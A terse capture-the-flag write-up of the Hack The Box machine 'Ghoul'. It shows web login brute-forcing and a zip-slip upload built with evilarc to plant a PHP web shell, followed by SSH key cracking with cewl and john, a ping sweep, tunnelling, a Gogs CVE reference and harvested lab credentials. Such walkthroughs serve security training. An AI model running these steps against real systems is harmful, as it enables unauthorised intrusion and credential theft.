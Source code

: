 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/OVMupjl.png)
![](https://i.imgur.com/RusP5Ro.png)
#### Port 80
![](https://i.imgur.com/u79AV3y.png)
![](https://i.imgur.com/hWFvmcj.png)


![](https://i.imgur.com/6LHLkwF.png)
- I logged in with and ths happened
	- `admin : abcdef `![](https://i.imgur.com/l6aMLSx.png)
- The image link is "http://ghoul.htb/users/kaneki.jpg" from this the image name looks like a real name so i tried to bruteforce with password.
- ` kaneki : 123456 , 0123456` - it works and it is same as the `admin`
##### Port 8080
![](https://i.imgur.com/bqznvHb.png)
- ![](https://i.imgur.com/3EBMjay.png)
### Gaining Access

```sh
rexder@HunterMachine ~/C/H/M/ghoul> git clone https://github.com/ptoomey3/evilarc
Cloning into 'evilarc'...
remote: Enumerating objects: 12, done.
remote: Total 12 (delta 0), reused 0 (delta 0), pack-reused 12
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (1/1), done.

rexder@HunterMachine ~/C/H/M/ghoul> cd evilarc/
rexder@HunterMachine ~/C/H/M/g/evilarc (master)> ls
README.md  evilarc.py

rexder@HunterMachine ~/C/H/M/g/evilarc (master)> python2 evilarc.py -o unix -p var/www/html/uploads shell.php
Creating evil.zip containing ../../../../../../../../var/www/html/uploads/shell.php
```
- Uploaded the shell and i got in
- ![](https://i.imgur.com/Th3W28U.png)
## Internal
### Enumeration
`$logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');`
![](https://i.imgur.com/2oTl5QY.png)
`<!--<user username="admin" password="test@aogiri123" roles="admin" />`
### Gaining Access
```shell
╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rwxrwxrwx 1 www-data www-data 862779 May 31 13:07 /tmp/lin.sh
-rw-r--r-- 1 root root 5696 May 31 12:57 /var/tmp/evil.zip
-rw-r--r-- 1 root root 2391908 May 31 09:10 /var/tmp/rexder.jpg
-rw-r--r-- 1 root root 1643841 Jan 22  2019 /var/tmp/hunt.zip
-rw-r--r-- 1 root root 1677441 Jan 22  2019 /var/tmp/edited_NSA-Report.pdf
-rw-r--r-- 1 root root 101 Jan 22  2019 /var/tmp/k.zip
-rw-r--r-- 1 root root 1868 Jan 22  2019 /var/tmp/txt
-rw-r--r-- 1 root root 4404 Jan 22  2019 /var/tmp/angecrypt.py
-rw-r--r-- 1 root root 5500549 Jan 22  2019 /var/tmp/f.zip
-rw-r--r-- 1 root root 92160 May 31 06:30 /var/backups/alternatives.tar.0
-rw-r--r-- 1 root root 3886432 Dec 13  2018 /var/backups/backups/Important.pdf
-rw-r--r-- 1 root root 29380 Dec 13  2018 /var/backups/backups/sales.xlsx
-rw-r--r-- 1 root root 112 Dec 13  2018 /var/backups/backups/note.txt
-rwxr--r-- 1 root root 1675 Dec 13  2018 /var/backups/backups/keys/noro.backup
-rwxr--r-- 1 root root 1766 Dec 13  2018 /var/backups/backups/keys/kaneki.backup
-rwxr--r-- 1 root root 1675 Dec 13  2018 /var/backups/backups/keys/eto.backup
-rw-r--r-- 1 root root 3886432 Dec 13  2018 /var/backups/backups/Important.pdf
-rw-r--r-- 1 root root 29380 Dec 13  2018 /var/backups/backups/sales.xlsx
-rw-r--r-- 1 root root 112 Dec 13  2018 /var/backups/backups/note.txt
-rwxr--r-- 1 root root 1675 Dec 13  2018 /var/backups/backups/keys/noro.backup
-rwxr--r-- 1 root root 1766 Dec 13  2018 /var/backups/backups/keys/kaneki.backup
-rwxr--r-- 1 root root 1675 Dec 13  2018 /var/backups/backups/keys/eto.backup
```
![](https://i.imgur.com/S57qNhA.png)
```shell
rexder@HunterMachine ~/C/H/M/ghoul> cewl --with-numbers http://ghoul.htb/secret.php -w word3.list
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
rexder@HunterMachine ~/C/H/M/ghoul> john --wordlist=word3.list kaneki.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ILoveTouka       (kaneki.pem)
1g 0:00:00:00 DONE (2024-05-31 17:21) 50.00g/s 5500p/s 5500c/s 5500C/s work..moment
```
![](https://i.imgur.com/McERsww.png)
- I fuzzed the Docker IP and i got `172.20.0.150 is up` 
- inside the .ssh`authorized_keys` exists, 
```shell
(remote) kaneki@07d8ec0e562e:/home/kaneki/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhK6T0d7TXpXNf2anZ/02E0NRVKuSWVslhHaJjUYtdtBVxCJg+wv1oFGPij9hgefdmFIKbvjElSr+rMrQpfCn6v7GmaP2QOjaoGPPX0EUPn9swnReRgi7xSKvHzru/ESc9AVIQIaeTypLNT/FmNuyr8P+gFLIq6tpS5eUjMHFyd68SW2shb7GWDM73tOAbTUZnBv+z1fAXv7yg2BVl6rkknHSmyV0kQJw5nQUTm4eKq2AIYTMB76EcHc01FZo9vsebBnD0EW4lejtSI/SRC+YCqqY+L9TZ4cunyYKNOuAJnDXncvQI8zpE+c50k3UGIatnS5f2MyNVn1l1bYDFQgYl kaneki_pub@kaneki-pc
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@Aogiri
```
- another user `kaneki_pub`
![](https://i.imgur.com/4Jbd73v.png)
```
for i in `seq 2 255`
do 
	ping -c 1 -W 1 172.18.0.$i 1>/dev/null 2>&1 
	if [[ $? -eq 0 ]] 
	then 
		echo "172.20.0.$i is up" 
	fi
 done
```
```shell
kaneki_pub@kaneki-pc:~$ cat to-do.txt
Give AogiriTest user access to Eto for git.
```
- i Did 2 tunnels
```shell
Kali -> 1st machine(172.20.0.200) -> 2nd machine(172.18.0.2) and accessed gogs
```
- ` AogiriTest : test@aogiri123 ` - is the cred
https://github.com/vulhub/vulhub/blob/master/gogs/CVE-2018-18925/README.md
![](https://i.imgur.com/CeQorld.png)
![](https://i.imgur.com/YQHBqIg.png)

### Maintaining Access
![](https://i.imgur.com/9H6zNS3.png)
```shell
/root # cat session.sh
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done
```
![](https://i.imgur.com/gglNSBo.png)
```shell
-spring.datasource.url=jdbc:mysql://localhost:3306/db
-spring.datasource.username=root
-spring.datasource.password=root
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
+spring.datasource.username=kaneki
+spring.datasource.password=jT7Hr$.[nF.)c)4C
 server.address=0.0.0.0

-spring.datasource.url=jdbc:mysql://localhost:3306/db
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
 spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.password=jT7Hr$.[nF.)c)4C
 server.address=0.0.0.0
```


# Random Notes